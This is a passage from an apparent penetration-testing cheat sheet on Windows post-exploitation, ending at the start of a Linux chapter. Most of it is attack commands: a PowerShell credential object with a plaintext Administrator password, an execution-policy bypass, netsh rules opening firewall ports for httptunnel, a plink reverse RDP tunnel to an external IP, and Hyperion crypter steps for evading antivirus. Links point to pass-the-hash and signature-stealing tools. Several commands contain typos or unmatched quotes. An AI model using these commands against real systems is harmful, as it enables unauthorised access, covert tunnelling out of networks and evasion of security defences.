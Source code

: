 

[Pass the Hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

##### runas

[Invoke-Runas](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps)

[Runas Reference](https://ss64.com/nt/runas.html)

##### Encapsulating SSH Traffic with httptunnel

# Bypass Notify with administrative account
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
$mycreds = New-Object System.Management.Automtion.PSCredential("Administrator", $secpasswd)
$computer = "DEV01"
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1

# add ruleset for firewall
C:\> netsh advfirewall firewall add rule name ="httptunnel_client" dir=in action=allow program="httptunnel_client.exe enable=yes
C:\> netsh advfirewall firewall add rule name ="3000" dir=in action=allow protocol=TCP localport=3000
C:\> netsh advfirewall firewall add rule name="1080 dir=in action=allow protocol=TCP localport=1080
C:\> netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
C:\> httptunnel_client.exe

# upload /usr/share/windows-binaries/plink.exe then setup port forward
C:\> plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99 -P 3000

# Bypass Anti-virus
Kali> cp payload.exe newpayload.exe
Kali> cp /usr/share/windows-binaries/Hyperion-1.0.zip .
Kali> i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
Kali> wine hyperion.exe ../newpayload.exe ../crypted.exe



[SigThief](https://github.com/secretsquirrel/SigThief)

# Chapter 5 - Linux Post-Exploitation

> _Unplug the network cable and instantiate draconian measures for physical security, You’ll make sure nobody can get in, but you’ll also make sure that nobody actually wants to use the platform. And that may sound like an extreme case, but it’s a very fundamental issue in security. You cannot look at security as something separate. Security issues are ‘just’ normal bugs_
>
> _**— **_**Linus Torvald**
